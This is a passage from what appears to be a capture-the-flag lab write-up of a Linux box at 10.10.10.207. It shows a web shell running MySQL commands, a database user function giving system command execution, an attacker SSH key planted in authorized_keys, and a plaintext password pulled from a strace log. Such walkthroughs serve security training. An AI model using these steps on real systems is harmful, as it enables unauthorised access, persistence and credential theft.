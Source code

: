     `http://10.10.10.207/shop/vqmod/xml/MF6GJ.php?c=mysql -u root -pchangethis -e "select * from mysql.func"`

      name	ret	dl	type
      exec_cmd	0	libmysql.so	function



* so i can use this function `exec_cmd` to execute system commands - 

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('id')"`

      exec_cmd('id') uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\...\0\0\0\0

* get a shell command output but when i try to execute reverse shell it did not worked for me so i put public ssh key in the user's Authorized keys and get a ssh shell as user `mysql`

* verifying `authorized_keys` file location

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('pwd')"`

      exec_cmd('pwd') /var/lib/mysql\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

    `http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('cd .ssh;ls')"`

      exec_cmd('cd .ssh;ls') authorized_keys\n\0\0\0\0\0\0\0\0\0\...\0\0\0\0

* Put ssh key

      http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=mysql -u root -pchangethis -e "select exec_cmd('echo ssh-rsa AAAAB3NzaC1y...Nb5q4%2B1LtnZpjM= > ~/.ssh/authorized_keys')"

  * while putting my ssh in the `authorized_keys` it won't worked at first and then i notice in the output that the every plus `+` sign from the ssh key was converted into a white space so i changed every `+` sign into `%2B` that is equvilent to a plus sign to solve this problem.

### USER:mysql shell

`ssh -i mysql mysql@10.10.10.207`
```
mysql@compromised:~$ id
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```

* there is a strace log file in the mysql directory -

  __[Strace](https://strace.io/):__ strace is a powerful command line tool for debugging and trouble shooting programs in Unix-like operating systems such as Linux. It captures and records all system calls made by a process and the signals received by the process.

      mysql@compromised:~$ ls -la strace-log.dat
      -r--r----- 1 root mysql 787180 May 13  2020 strace-log.dat

* it this log file i found `sysadmin` user password -

      mysql@compromised:~$ cat strace-log.dat | grep password
      22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0
